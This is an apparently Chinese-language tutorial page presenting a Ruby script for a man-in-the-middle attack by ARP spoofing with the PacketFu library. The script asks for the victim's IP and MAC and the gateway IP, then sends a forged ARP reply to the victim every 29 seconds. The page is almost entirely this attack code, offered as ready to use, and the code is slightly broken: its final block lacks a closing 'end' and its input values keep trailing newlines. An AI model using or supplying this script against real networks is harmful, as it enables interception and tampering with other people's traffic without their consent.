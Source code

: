# MiTM攻击

# 中间人攻击（MiTM）

通过ARP欺骗和PacketFU以及套接字使用本书中的源代码作为基础的更复杂的MiTM攻击示例。

```
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac     # your MAC Address
     x.eth_daddr = vmac     # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip   # Router IP Address
     x.arp_daddr_ip=  vip   # Victim IP Address
     x.arp_opcode = 2       # ARP Reply Code
   while true do 
     x.to_w(int_name)       # Put Packet to wire  interface
      sleep(29)             # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this
unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

# select interface to use and start setup
interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
```